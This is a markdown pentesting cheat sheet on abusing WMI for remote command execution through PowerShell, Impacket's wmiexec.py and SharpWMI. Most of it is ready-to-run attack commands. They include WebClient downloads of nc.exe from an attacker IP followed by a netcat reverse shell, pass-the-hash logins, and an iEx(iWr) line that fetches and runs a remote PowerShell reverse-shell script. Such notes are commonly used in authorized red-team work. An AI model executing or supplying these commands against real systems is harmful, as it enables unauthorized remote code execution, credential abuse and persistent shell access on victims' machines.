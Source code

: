 # WMI

* [https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/](https://www.ethicalhacker.net/features/root/wmi-101-for-pentesters/)




## PowerShell

Basic command to check if we have privileges to execute WMI:

```
PS > Get-WmiObject -Credential $cred -ComputerName PC01 -Namespace "root" -class "__Namespace" | Select Name
```

Execute commands:

```
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("powershell (New-Object Net.WebClient).DownloadFile('http://10.10.13.37/nc.exe', 'C:\Users\bob\music\nc.exe')")
PS > Invoke-WmiMethod -Credential $cred -ComputerName PC01 win32_process -Name Create -ArgumentList ("C:\Users\bob\music\nc.exe 10.10.13.37 1337 -e powershell")
```




## wmiexec.py

```
$ wmiexec.py -codec cp866 snovvcrash:'Passw0rd!'@127.0.0.1
$ wmiexec.py -hashes :fc525c9683e8fe067095ba2ddc971889 snovvcrash@127.0.0.1
```

Get a PowerShell reverse-shell:

```
$ sudo python3 -m http.server 80
$ sudo rlwrap nc -lvnp 443
$ wmiexec.py -silentcommand -nooutput snovvcrash:'Passw0rd!'@192.168.1.11 'powershell iEx (iWr "http://10.10.13.37/rev.ps1")'
```




## SharpWMI

- [https://github.com/GhostPack/SharpWMI](https://github.com/GhostPack/SharpWMI)

```
PS > .\SharpWMI.exe action=exec [username=MEGACORP\snovvcrash] [passw0rd=Passw0rd!] computername=PC01 command="powershell -enc <BASE64_CMD>"
```
